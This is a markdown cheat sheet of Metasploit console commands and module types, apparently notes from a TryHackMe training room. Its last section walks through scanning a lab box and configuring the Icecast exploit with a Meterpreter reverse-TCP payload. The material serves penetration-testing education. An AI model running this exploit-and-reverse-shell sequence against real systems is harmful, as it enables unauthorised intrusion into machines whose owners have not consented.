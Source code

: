 # Metasploit

## Intro
- https://darkstar7471.com/resources.html
- Install Metasploit

## Initializing...
- Initialize the database: `msfdb init` (may require `sudo`)
- Display help info: `msfconsole -h`
- Hide banner: `-q`
- Start metasploit: `msfconsole`
- Check database connection: `db_status`
- Connection type: postgresql

## Rock 'em to the Core [Commands]
- Help menu: `help`
- Help menu alias: `?`
- Search command: `search`
- Set active module: `use`
- Display module information: `info`
- Connect to a host: `connect`
- Display banner: `banner`
- Change variable value: `set`
- Change global variable value: `setg`
- View variable value: `get`
- Change variable value to null/no value: `unset`
- Write screen and console output to file: `spool`
- Save settings/active datastores: `save`

## Modules for Every Occasion!
- Exploit module: `exploit`
- Shellcode module: `payload`
- Scan and Verify machines module: `auxiliary`
- Post exploitation, looting, and pivoting module: `post`
- Payload obfuscation module: `encoder`
- Buffer overflow and ROP attacks module: `nop`
- Load modules: `load`

## Move that shell!
- Run nmap: `db_nmap -sV BOX-IP`
- Port 135 Service: msrpc
- List hosts in database: `hosts` 
- List services in database: `services`
- List vulnerabilities in database: `vulns`
- `use icecast`: exploit/windows/http/icecast_header
- Search exploit: `search multi/handler`
- ID column in search: #
- Short hand use module: `use #`
- Set payload:
    - `set PAYLOAD windows/meterpreter/reverse_tcp`
    - `set LHOST YOUR_IP_ON_TRYHACKME`
- Set exploit: `use icecast`
- Set target host: `set RHOSTS BOX_IP`

